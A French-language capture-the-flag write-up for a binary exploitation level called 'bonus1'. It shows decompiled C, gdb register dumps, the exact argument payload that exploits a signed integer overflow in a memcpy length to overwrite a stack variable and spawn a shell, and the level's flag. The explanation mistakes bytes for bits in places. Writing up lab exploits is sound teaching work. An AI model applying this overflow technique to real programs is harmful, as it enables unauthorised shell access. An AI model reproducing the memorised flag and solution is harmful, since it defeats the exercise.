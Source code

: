 Read also: [./Resources/README.md](./Resources/README.md)

# Source

https://dogbolt.org/?id=e9dbc80b-2f99-46a6-8bbc-0ef4b8c2bda0

```c
/** address: 0x08048424 */
int main(int argc, char *argv[])
{
	int num;
	char dest[40];

	num = atoi(argv[1]);
	if (num > 9)
    	   return 1;

       memcpy(&des, argv[2], num * 4); // ici on a un unsigned int
    	if (num == 0x574f4c46)
          execl("/bin/sh", "sh");

	return 0;
}
```

# Explication

Alors :

 - Le premier argument doit être inférieur à 9 ;
 - Utilisation de memcpy sur le 2eme argument (donc c’est argv[2] qui va servir d’exploit).
 - La variable qui contenait le premier argument, doit devenir égale à 0x574f4c46, soit 1464814662.
   Ou sinon on doit profiter du buffer overflow pour écrire sur la pile (ce qui est possible car le
   programme fait mov %eax,(%esp)).

Code d'exemple, pour faire un overflow avec atoi et la multiplication par 4 : 

Pour `run  $(python -c 'print "-" + str(2 ** 32 / 4)') a`

On aurait :

```c
#include <stdio.h>
#include <math.h>

int main() {
    unsigned int n;
    n = ((unsigned int) pow(2, 32)) / -4 - 1 * 4 + 4;
    printf("%lu\n", n * 4);
}

/*
Program returned: 0
Program stdout
4
*/
```
https://godbolt.org/

On fait un premier test pour obtenir les infos qu'on veut avec `i r` :

```
(gdb) run  $(python -c 'print "-" + str(2 ** 32 / 4 - 8)') aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[...]
Breakpoint 1, 0x08048468 in main ()
(gdb) ls
Undefined command: "ls".  Try "help".
(gdb) c
Continuing.

Breakpoint 2, 0x08048478 in main ()
(gdb) i r
eax         0xbffff6d4    -1073744172    <= pointeur destination de memcpy
ecx         0x20  32
edx         0xbffff6f4    -1073744140
ebx         0xb7fd0ff4    -1208152076
esp         0xbffff6c0    0xbffff6c0
ebp         0xbffff708    0xbffff708
esi         0x0   0
edi         0x0   0
eip         0x8048478     0x8048478 <main+84>
eflags      0x200283 [ CF SF IF ID ]
cs          0x73  115
ss          0x7b  123
ds          0x7b  123
es          0x7b  123
fs          0x0   0
gs          0x33  51
(gdb) p (char *)$eax
$10 = 0xbffff6d4 'a' <repeats 32 times>
(gdb)

run  "$(python -c 'print "-" + str(2 ** 32 / 4 - (44 / 4))')" "$(python -c 'print "a" * 40 + "\x46\x4c\x4f\x57"')"
```

Le premier bit d’un int est le signe https://fr.wikipedia.org/wiki/Bit_de_signe , en passant négatif (signed bit = 1)
et en cherchant le MAX_INT, on va pouvoir faire un dépassement de valeur, grâce à la multiplication par 4. La variable
de destination de memcpy est un char de taille 40, on souhaite donc que memcpy copie 44 bits. On remplit le deuxième
argument avec 40bits, on inverse le byte order de la valeur 1464814662 (0x574f4c46). Et le travail est fait !

```
./bonus1 "$(python -c 'print "-" + str(2 ** 32 / 4 - (44 / 4))')" "$(python -c 'print "a" * 40 + "\x46\x4c\x4f\x57"')"

cat /home/user/bonus2/.pass
```

Le flag est donc :

```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
